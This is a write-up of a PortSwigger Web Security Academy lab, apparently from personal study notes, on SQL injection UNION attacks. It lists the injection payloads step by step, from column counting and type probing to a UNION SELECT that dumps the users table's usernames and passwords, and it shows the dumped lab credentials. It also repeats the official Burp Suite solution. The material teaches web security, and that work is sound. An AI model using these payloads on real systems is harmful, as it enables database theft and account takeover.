






# Lab: SQL injection UNION attack, retrieving data from other tables

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.


# SQLi Verification Payload

```sql
'--
```





# Count Number of Columns

```sql
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL--
```

<aside>
💡 There are two columns

</aside>



# Identify Data Types

```sql
'UNION SELECT '',NULL--
'UNION SELECT NULL,''--
```

<aside>
💡 Both of them are string

</aside>

# Retrieve `users` Table

```sql
'UNION SELECT username,password FROM users--
```



```
carlos
zqxkh0etk1uigkridyqk
administrator
lt7py7bsak76t4a9vfb7
wiener
g2xhdak9ac2ud3yoscaj
```

# Access with Administrator Account





# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'abc','def'--`.
3. Use the following payload to retrieve the contents of the `users` table: `'+UNION+SELECT+username,+password+FROM+users--`
4. Verify that the application's response contains usernames and passwords.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #5 SQL injection UNION attack, retrieving data from other tables](https://youtu.be/6Dsj5SqR944)

Michael Sommer

[SQL injection UNION attack, retrieving data from other tables (Video solution, Audio)](https://youtu.be/AkE_JHU7skQ)

